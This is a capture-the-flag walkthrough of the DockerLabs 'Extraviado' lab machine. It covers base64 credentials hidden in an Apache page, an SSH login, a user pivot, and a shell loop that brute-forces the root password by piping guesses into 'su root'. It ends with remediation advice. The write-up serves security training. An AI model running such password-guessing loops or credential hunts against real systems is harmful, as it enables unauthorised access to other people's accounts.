





# Extraviado — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info


## Summary

**Extraviado** is an Easy DockerLabs machine built around a chain of base64-encoded credentials hidden across the filesystem, capped by a themed riddle that discloses the root password pattern. The Apache default page conceals SSH credentials for `daniela` at the very bottom of its HTML source. With `sudo` unavailable for both `daniela` and `diego`, escalation instead depends on a base64-encoded password file that pivots to `diego`, and finally a riddle describing an arctic animal and a color that yields the root password.

**Attack chain:** Reconnaissance → Web Root (Base64 Credential Disclosure) → SSH Login (daniela) → User Pivot (diego) → Riddle-Based Password Brute Force → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Port scan with `nmap`:

```
nmap -sS -sV -sC -vvv -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Only SSH and an unmodified Apache default page are exposed.

## 2. Web Enumeration

The web root serves the standard Apache2 Ubuntu default page. Its HTML source, however, hides a long run of blank lines followed by a base64-encoded credential pair at the very bottom of the file:

```
#.........................................................................................................ZGFuaWVsYQ== : Zm9jYXJvamE=
```

Decoded:

```
echo "ZGFuaWVsYQ==" | base64 -d
daniela

echo "Zm9jYXJvamE=" | base64 -d
focaroja
```

Valid credentials: **daniela:focaroja**

## 3. Initial Access — SSH as daniela

Logged in over SSH with the recovered credentials:



`sudo` is not installed, and enumeration of SUID binaries returned only standard system binaries, with no immediate escalation path:

```
sudo -l
-bash: sudo: command not found

find / -perm -4000 2>/dev/null

/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

## 4. User Pivot — daniela to diego

daniela's home directory contains a hidden `.secreto` folder with a base64-encoded password file:

```
ls -la

drwxrwxr-x 2 daniela daniela 4096 Jan  9  2025 .secreto

cd .secreto
cat passdiego

YmFsbGVuYW5lZ3Jh
```

Decoded:

```
echo "YmFsbGVuYW5lZ3Jh" | base64 -d
ballenanegra
```

Valid credentials: **diego:ballenanegra**, used to switch user with `su diego`.

## 5. Escalation Attempts as diego

`sudo` is not installed for `diego` either, ruling out that path:

```
sudo -l
bash: sudo: command not found
```

diego's home directory contains a `pass` file hinting at a hidden password elsewhere, and a `.passroot` folder with another base64 string:

```
cat pass
donde estara?

cd .passroot
cat .pass
YWNhdGFtcG9jb2VzdGE=
```

Decoded:

```
echo "YWNhdGFtcG9jb2VzdGE=" | base64 -d
acatampocoesta
```

Read aloud, `acatampocoesta` spells out "acá tampoco está" ("not here either") — a decoy, not a usable credential.

## 6. Riddle-Based Root Password

A hidden file in `.local/share/` contains a Spanish riddle describing an animal and a color:



The riddle points to an arctic animal paired with a shade of blue, matching the animal+color password pattern already seen with `daniela` and `diego`. Brute-forced with a small wordlist limited to cold-climate animals and blue tones:

```
riddle_bruteforce:

animals="husky lobo oso foca ballena morsa pinguino reno liebre zorro"
colors="azul celeste turquesa marino cian aguamarina zafiro"

for a in $animals; do
  for c in $colors; do
    p="${a}${c}"
    echo "-> $p"
    echo "$p" | su root -c whoami 2>/dev/null && echo "FOUND: $p" && break 2
  done
done
```

```
./riddle_bruteforce

-> huskyazul
-> huskyceleste
-> huskyturquesa
-> huskymarino
-> huskycian
-> huskyaguamarina
-> huskyzafiro
-> loboazul
-> loboceleste
-> loboturquesa
-> lobomarino
-> lobocian
-> loboaguamarina
-> lobozafiro
-> osoazul
root
FOUND: osoazul
```

Root password: **osoazul**

## 7. Privilege Escalation — Root Confirmed





Root access confirmed.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| SSH credentials hidden in base64 at the bottom of the public web root's HTML source | Never embed credentials, even encoded, in publicly accessible files — base64 is encoding, not encryption |
| Predictable animal+color password pattern reused across multiple accounts (`daniela`, `diego`, and root) | Enforce strong, unpredictable passwords; avoid shared patterns across accounts, especially privileged ones |
| Root password discoverable via a themed riddle, vulnerable to a small targeted wordlist | Never derive privileged account passwords from riddles or guessable themes; use strong random passwords or key-based authentication |
